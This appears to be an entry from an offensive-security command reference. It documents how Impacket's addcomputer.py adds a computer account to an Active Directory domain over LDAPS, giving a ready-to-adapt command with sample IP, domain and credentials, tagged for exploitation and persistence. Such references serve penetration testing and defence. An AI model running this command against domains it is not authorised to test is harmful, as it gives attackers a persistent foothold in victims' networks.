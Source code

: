 ```yaml
---
title: |
  Add computer to the domain using LDAPS
description: |
  Impacket's addcomputer.py will add a computer account to the domain and set its password. The following command will create a new computer over LDAPS. Plain LDAP is not supported, as it doesn't allow setting the password of the new computer.

  Command Reference:

  	Target IP: 10.10.10.1

  	Domain: test.local

  	New Computer Password: Welkom02!

  	New Computer Name: testComputer

  	Username: test

  	Password: Welkom01!

command: |
  python3 addcomputer.py -method LDAPS -dc-ip 10.10.10.1 -computer-pass Welkom02! -computer-name testComputer test.local/test:Welkom01!
items:
  - Username
  - Password
services:
  - LDAP
OS:
  - Linux
  - Windows
attack_types:
  - Exploitation
  - Persistence
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/addcomputer.py
  - http://blog.redxorblue.com/2019/12/no-shells-required-using-impacket-to.html
---
```

